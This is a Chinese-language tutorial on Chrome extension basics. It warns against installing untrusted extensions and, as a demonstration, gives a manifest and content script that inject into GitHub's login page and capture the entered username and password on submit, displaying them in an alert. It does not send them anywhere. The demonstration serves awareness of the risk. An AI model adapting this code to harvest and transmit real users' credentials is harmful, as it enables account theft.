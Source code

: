 ## 基本概念

首先，我们要搞明白一件事情，那就是chrome相当于一个类似于win，linux的操作系统，而扩展就是app。
业内人士总有一句话："浏览器就相当于半个操作系统"(可以这么说，但不建议你就这样认为)
谷歌出过一个笔记本，叫`Chromebook`，不了解的可以去搜索了解一下。
要写一个chrome扩展，就必须要有相应的权限，api调用，就跟安卓，ios开发中提供的系统底层调用一样，不过chrome扩展是比较简单的。
如果您用过微信小程序或者是其它小程序，就会发现chrome扩展其实跟那些小程序非常类似。

简单来说，就是你可以通过插件来控制浏览器的一系列的行为，比如获取网页cookies，改变网页，定义ua，代理等等。

通过扩展，可控制，可访问的信息是特别多的，所以在一些情况下，**请勿随便安装插件，有可能会窃取你的信息，历史记录，书签，甚至密码**。

而这，是可以轻易做到的，下面我将用一个案例来窃取你输入的密码。

这里我们就用github来举例，通过chrome插件来获取你在github登录页面输入的账号和密码。

此处案例在examples/获取输入

首先定义配置

```js
{
  // 配置文件版本,以后只支持3了
  "manifest_version": 3,
  // 扩展名称
  "name": "获取输入信息",
  // 扩展介绍
  "description": "获取输入信息,比如密码",
  // 扩展版本
  "version": "1.0",
  "action": {
    // 默认图标
    "default_icon": "images/icon.png"
  },  
  "content_scripts": [
    {
      "matches": ["https://github.com/login","https://github.com/session"],
      "js": ["content.js"]
    }
  ],  
  // 图标
  "icons": {
    // 扩展程序页面和上下文菜单上的网站图标。
    "16": "images/icon.png",
    //     Windows 计算机通常需要此大小。
    "32": "images/icon.png",
    //    显示在“扩展程序”页面上。
    "48": "images/icon.png",
    // 安装时会显示在 Chrome 应用商店中。
    "128": "images/icon.png"
  }
}
```

清单配置，基本上都有注释，这里出现的`content_scripts`（翻译过来就是内容脚本）就是来获取网页内容，甚至改变网页的核心配置。

`matches` 是一个数组，它定义了这个js该插到那个url网页里面，这里我写了github的登录网址。

如果是指定所有网页都插入，可以使用`"matches": ["https://*/*","http://*/*"]`。

当你启用插件之后，如果访问的是`https://github.com/login`，那么`content.js`就会被插入(注入)这个网页。

让我们看看`content.js`的内容：

```js
try {
   var form = document.forms[0];
   // 监听提交事件
   form.addEventListener("submit", myFunction);
} catch (error) {
   console.log(error);
}

function myFunction(event) {
    // 获取表单数据，这里的表单name需要自己去看实际网页的定义
    var name = event.target.elements["login"].value;
    var pass = event.target.elements["password"].value;
    // 打印账号密码
    alert(`账号:${name}密码:${pass}`);
}


```

可以看到，其实就是监听提交事件，然后定义一个函数，获取提交的账号名和密码。

运行结果如下图：

![image.png](./images/1.png)



可以看到，我们已成功的获取到账号和密码，我这里只是用了打印显示出来，如果是一些恶意的插件，可能会直接把账号和密码<mark>上传到它的服务器</mark>。



现在你是不是对于chrome扩展有了一个新的认识？其实它还可以做到更多的事情。
